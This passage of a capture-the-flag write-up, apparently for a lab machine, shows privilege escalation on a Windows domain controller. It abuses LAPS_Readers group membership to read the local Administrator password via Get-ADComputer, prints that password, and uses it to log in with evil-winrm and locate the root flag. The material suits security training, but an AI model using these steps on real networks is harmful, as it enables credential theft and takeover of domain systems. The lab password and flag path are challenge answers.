 ```

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
```

It is part of the `LAPS_Readers` group.

According to [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#laps), "LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES."

So, we can view the local Administrator password because we are part of the `LAPS_Readers` group. Searching for "view laps password powershell" finds [this article](https://smarthomepursuits.com/export-laps-passwords-powershell/) from which I determined that running `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` will print the password.

So, run `invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}`:

```
PSComputerName              : localhost
RunspaceId                  : caa1633d-9159-4aff-878c-7f9093c813d4
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : 02j(2Mj4(T2$Ic,cGFs{j/4%
ms-Mcs-AdmPwdExpirationTime : 133035980576115802
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

The password for local Administrator `DC01` is `02j(2Mj4(T2$Ic,cGFs{j/4%`.

So, let's use `evil-winrm` to connect as that user. From the attacker machine, run `evil-winrm -S -u 'Administrator' -p '02j(2Mj4(T2$Ic,cGFs{j/4%' -i 10.10.11.152`.

The `root.txt` flag is not in the usual spot at `C:\Users\Administrator\Desktop\root.txt`. We can try to find it by navigating to `C:\Users` and then running `gci -recurse -filter "root.txt"` (command from [this StackOverflow answer](https://stackoverflow.com/a/3428113)):

```
    Directory: C:\Users\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/24/2022  12:54 PM             34 root.txt

```

Running `cat C:\Users\TRX\Desktop\root.txt` prints the root flag.
